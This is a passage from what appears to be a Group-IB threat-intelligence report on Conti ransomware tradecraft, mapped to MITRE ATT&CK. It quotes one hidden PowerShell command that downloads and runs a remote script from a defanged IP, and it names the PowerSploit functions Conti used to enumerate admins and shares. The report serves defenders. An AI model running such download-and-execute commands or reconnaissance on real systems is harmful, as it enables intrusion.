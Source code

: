 C:/Datop was used as a working directory for Cobalt Strike (some tools were downloaded to and subsequently launched in it). This directory is specific to DatopLoader , whose infection chain is known to have involved Cobalt Strike.

The second method was detected in three compromised organizations, where Bazar Backdoor was the initial infection vector. After Conti reportedly stopped using TrickBot due to antivirus detection problems, they switched to Bazar Backdoor. Thanks to the leak, we know that Conti has infiltrated more than 600 organizations with Bazar Backdoor since October 29, 2021.

It is important to point out that both tools (DatopLoader and BazarLoader) are installed on infected devices as part of mass phishing email campaigns, so in this case the Phishing T1566 technique (mass non-targeted mailouts) is used.

## Execution

## Command and Scripting Interpreter: PowerShell T1059.001

While analyzing incidents from this campaign, Group-IB experts noticed that Cobalt Strike operators manually launched PowerShell scripts such as:

powershell.exe -nop -w hidden -c «IEX ((new-object net.webclient). downloadstring('http://23.183.81[.]113:80/a123123123'))»

Unfortunately, Group-IB analysts could not obtain the actual script. However, Group-IB's patented Graph Network Analysis tool detected a link between the above IP address and the svvtc[.]com domain which, according to Group-IB Threat Intelligence, was used as a Cobalt Strike C2:



Appendix 1 shows configuration data extracted from Cobalt Strike samples that used the svvtc[.]com domain as a C2.

The threat actors also used PowerSploit scripts at various stages of their operation:

-  Find-LocalAdminAccess helped the attackers identify devices in the domain on which current users had administrator privileges
-  Invoke-EnumerateLocalAdmin was  used  by  the  attackers  to  obtain a list of local administrators
-  Invoke-ShareFinder -CheckShareAccess  was  used  to  obtain  a  list of network drives to which local users had access. The command can be  executed  during  reconnaissance  or  before  data  encryption.  The operators  download  the  following  data  from  the  connected  disks (based on the instructions):
-  Financial and accounting documents
-  IT documents
-  Customer information
-  Information about projects
-  Employee details

## Command and Scripting Interpreter: Windows Command Shell T1059.003

The Cobalt Strike framework's shell command runs an application via cmd.exe /c , i.e. any command executed via the shell (probably the most commonly used command among red teams) will be launched in CMD . The report does not include a complete list of the commands, but some are listed in the Discovery section.
